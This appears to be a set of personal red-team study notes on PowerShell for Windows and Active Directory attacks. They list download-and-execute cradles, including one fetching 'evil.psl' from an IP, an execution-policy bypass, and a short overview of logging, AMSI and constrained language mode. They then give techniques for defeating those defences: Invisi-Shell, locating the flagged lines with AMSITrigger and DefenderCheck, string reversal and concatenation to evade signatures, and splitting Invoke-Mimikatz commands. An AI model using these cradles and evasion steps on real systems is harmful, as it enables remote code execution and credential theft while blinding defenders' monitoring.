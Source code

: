 ###### powershell porosities 
- powershell have ability to access any thing in window machine
- based on .net framework
- powershell is not "powershell.exe" it's "System.Managemant.Automation.dll" but "powershell.exe" is a way to access it
### powershell script execution 
###### load powershell module
```
powershell -ep bypass 
. .\PowerView.ps1
```
```
Import-Module .\PowerView.ps1
```
###### list module commands
```
Get-Command -module <module_name>
```
###### load remote module (download & execute credle )
```
iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) 
```
```
$ie= New-Object -ComObject InternetExplorer.Application;
$ie.visiable=$False;$ie.navigate("<URL>");sleep 5;
$response=$ie.Document.body.innerHTML;$ie.quit();
iex $reponse
```
```
PSv3 onwards - iex (iwr 'http://192.168.23/evil.psl')
```
```
$h=New-Object -comObject Msxm12.XMLHTTP;
$h.open('GET' , "<URL>" , $False);
$h.send(); iex $h.responseText
```
```
$EX =[System. NET. webRequest]: :Create("<URL>")
$r =$EX.GetResponse()
IEX ([System.IO.StreamReader)($r.GetResponseStream())).ReadToEnd()
```
### Powershell detection
1. System-wide transcription => log calls for all the commands saved into flat file **==saved on same machine==**
	widows powershell 5.1 have enhanced logging -> cen be evided using no unmanaged code and NO PS
2. Script Block logging => search for keyword on running scripts, and log warning
3. AntiMalware Scan Interface (AMSI) => regardless of the way scripts run(loaded from desk or memory), write before the execution it sends the script's content to registered AV to scan it and detect it's signature
4. Constrained Language Mode (CLM) => works by define set of allowed and not allowed cmdlet. then whenever script loads, it either allow execution or ask for permission
5. MDI and endpoint security
### Bypass AV signature
- use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) which created hooks on .Net assembly 
	it's bypass first 3 detect mechizem
	```
	With admin privileges: 
		RunWithPathAsAdmin.bat
	With non-admin privileges: 
		RunWithRegistryNonAdmin.bat
	```
- when load script from desk
	-  [AMSITrigger](https://github.com/RythmStick/AMSITrigger), [DefenderCheck](https://github.com/t3hbb/DefenderCheck) used to find which line trigger Windows Defender
		u need to find the keyword on your own try-and-error
		```
		AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1 
		DefenderCheck.exe PowerUp.ps1
		```
		once u find the key word u can reverse it using regex, convert to array to concatenate
		```
		keyword: System.AppDomain
		$String = 'niamoDppA.metsyS’ 
		$classrev = ([regex]::Matches($String,'.', 'RightToLeft') | ForEach {$_.value}) -join ‘’
		then "$classrev" will have "System.AppDomain" string on execution
		```
	- full Obfuscate PowerShell script using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) 
	- https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide
- Bypassing AV Signatures for  - `Invoke-Mimikatz`
	![[Pasted image 20241229232142.png]]
	10. then when pass command to `invoke-mimi -Command <command>` u may need to split it and re-concatenate
		```
		$a='cha1';
		$b='car2';
		....
		$pwn = $a+$b+...;
		invoke-mimi -Command $pwn
		```